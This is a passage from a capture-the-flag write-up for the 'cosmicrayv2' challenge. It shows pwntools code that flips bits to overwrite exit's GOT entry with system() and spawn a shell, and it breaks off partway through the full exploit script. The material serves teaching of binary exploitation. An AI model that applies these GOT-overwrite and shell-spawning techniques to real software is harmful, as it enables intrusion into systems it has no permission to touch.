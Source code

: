 4. Modify the GOT entry for `exit()` to point to `system()`. We can use the same `string_modify` function to do this.
    ```python
    print('Modifying exit@GOT address')
    string_modify(0x403fe8, exit_got.to_bytes(8, 'little'), system_got.to_bytes(8, 'little'))
    ```

5. Call `system()` after passing `/bin/sh` as our input. By passing data that's not a valid bit, it will call `exit()` (which is now `system()`). The address we chose to write was arbitrary, but it must be a valid address.
    ```python
    print('Getting shell...')
    p.recvuntil(b'through:\n')
    p.sendline(b'0x47')
    p.recvuntil(b'flip:\n')
    p.sendline(b'//bin/sh\x00')

    p.interactive()
    ```

If we run this, we get a shell and the flag!

## Full Exploit
{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./dist/cosmicrayv2')
libc = elf.libc
p = remote('vsc.tf', 3047)

def bit_modify(addr, bit):
    # send the address
    p.recvuntil(b'through:\n')
    p.sendline(hex(addr).encode())
    
    # modify the bit
    p.recvuntil(b'flip:\n')
    p.sendline(str(bit).encode())

def read(addr):
    # send the address
    p.recvuntil(b'through:\n')
    p.sendline(hex(addr).encode())
    
    # get the byte
    p.recvuntil(b'-----------------\n')
    x = bytes([int(b''.join(p.recvline().strip().split(b'|')).decode(),2)])
    
    # do and undo an action
    p.recvuntil(b'flip:\n')
    p.sendline(b'1')
    bit_modify(addr, 1)
    
    # return the leaked bit
    return x

def string_modify(base, old, new):
    to_change = bytes(a ^ b for a, b in zip(old, new))
    to_change_bytes = [format(byte, '08b') for byte in to_change]

    for byte in range(len(to_change_bytes)):
        for bit in range(len(to_change_bytes[byte])):
            if to_change_bytes[byte][bit] == '1':
```